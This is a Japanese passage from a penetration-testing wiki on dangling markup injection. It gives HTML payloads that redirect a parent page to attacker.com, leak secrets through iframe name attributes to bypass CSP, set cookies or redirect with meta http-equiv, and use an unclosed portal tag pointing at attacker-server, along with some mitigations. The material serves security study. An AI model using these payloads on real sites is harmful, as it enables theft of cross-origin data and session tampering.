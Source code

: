 注意してください、**子ドキュメントは親のlocationプロパティを表示および設定することができます。** これは、クライアントが他のページにアクセスすることができることを意味します。以下のようなコードを**iframe**内に読み込むことで、クライアントが他のページにアクセスできます。
```markup
<html><head></head><body><script>top.window.location = "https://attacker.com/hacked.html"</script></body></html>
```
これは次のように緩和できます: _**sandbox='allow-scripts allow-top-navigation'**_

また、iframeを使って異なるページから**iframeのname属性を利用して**機密情報を漏洩させることもできます。これは、HTMLインジェクションを悪用して自身をiframe化するiframeを作成することができるため、**機密情報がiframeのname属性内に表示され、それを初期のiframeからアクセスして漏洩させることができる**からです。
```html
<script>
function cspBypass(win) {
win[0].location = 'about:blank';
setTimeout(()=>alert(win[0].name), 500);
}
</script>

<iframe src="//subdomain1.portswigger-labs.net/bypassing-csp-with-dangling-iframes/target.php?email=%22><iframe name=%27" onload="cspBypass(this.contentWindow)"></iframe>
```
詳細については、[https://portswigger.net/research/bypassing-csp-with-dangling-iframes](https://portswigger.net/research/bypassing-csp-with-dangling-iframes)を参照してください。

### \<metaの乱用

**`meta http-equiv`**を使用して、Cookieの設定などの**複数のアクション**を実行できます：`<meta http-equiv="Set-Cookie" Content="SESSID=1">`またはリダイレクトを実行できます（この場合は5秒後に）：`<meta name="language" content="5;http://attacker.svg" HTTP-EQUIV="refresh" />`

これは、**http-equiv**に関する**CSP**で回避することができます（ `Content-Security-Policy: default-src 'self';`または `Content-Security-Policy: http-equiv 'self';`）

### 新しい\<portal HTMLタグ

\<portalタグの脆弱性に関する非常に**興味深い研究**は[こちら](https://research.securitum.com/security-analysis-of-portal-element/)で見つけることができます。\
この執筆時点では、Chromeでportalタグを有効にする必要があります。`chrome://flags/#enable-portals`で有効にしないと機能しません。
```markup
<portal src='https://attacker-server?
```
### HTMLリーク

HTMLで接続性を漏洩させる方法はすべてがDangling Markupに役立つわけではありませんが、時には役に立つこともあります。こちらで確認できます：[https://github.com/cure53/HTTPLeaks/blob/master/leak.html](https://github.com/cure53/HTTPLeaks/blob/master/leak.html)

## XS-Search

XS-Searchは、**サイドチャネル攻撃**を悪用して**クロスオリジン情報を外部流出**させるためのものです。したがって、これはDangling Markupとは異なる技術ですが、一部の技術はHTMLタグの含み（JSの実行あり・なし）を悪用しています。例えば、[**CSS Injection**](xs-search.md#css-injection)や[**Lazy Load Images**](xs-search.md#image-lazy-loading)**などです。**

{% content-ref url="xs-search.md" %}
[xs-search.md](xs-search.md)
{% endcontent-ref %}

